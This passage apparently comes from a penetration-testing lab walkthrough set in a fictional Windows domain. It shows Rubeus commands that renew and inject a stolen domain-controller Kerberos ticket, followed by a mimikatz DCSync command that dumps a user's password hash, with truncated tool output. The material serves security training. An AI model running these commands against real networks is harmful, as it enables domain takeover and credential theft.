 ```powershell-session
  Base64EncodedTicket   :

    doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCBFVhggRRMIIETaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUl<SNIP>
```

We can use this ticket to get a new valid TGT in memory using the `renew` option in `Rubeus`.

#### Renewing the ticket with Rubeus
```powershell-session
PS C:\Tools> .\Rubeus.exe renew /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCBFVhggRRMIIETaADAgEFoRUbE0lOTEFORUZSRUlHSFQ
uTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQDMIID/6ADAgESoQMCAQKiggPxBIID7XBw4BNnnymchVY/H/
9966JMGtJhKaNLBt21SY3+on4lrOrHo<SNIP> /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Renew Ticket

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (10.129.1.207)
[*] Building TGS-REQ renewal for: 'INLANEFREIGHT.LOCAL\DC01$'
[+] TGT renewal request successful!
[*] base64(ticket.kirbi):

      doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCBFVhggRRMIIETaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQDMIID/6ADAgESoQMC
      AQKiggPxBIID7W7EOz2Zqm1a6b9/cCHeJbZdt0qgV8Wgw1BS2Jctk8X9l6ibkK7G+s/jyPDL6ReV0OvP
      p3ClWOjdoLO3jH<SNIP>
    
[+] Ticket successfully imported!
```

Now that we have the TGT of `DC01$` in memory, we can perform the `DCsync` attack to retrieve a target user's NTLM password hash. In this example, we retrieve secrets for the user `sarah.lafferty`.

#### Performing DCSync
```cmd-session
C:\Tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
  
mimikatz # lsadump::dcsync /user:sarah.lafferty

[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'sarah.lafferty' will be the user account

Object RDN           : sarah.lafferty

** SAM ACCOUNT **

SAM Username         : sarah.lafferty
```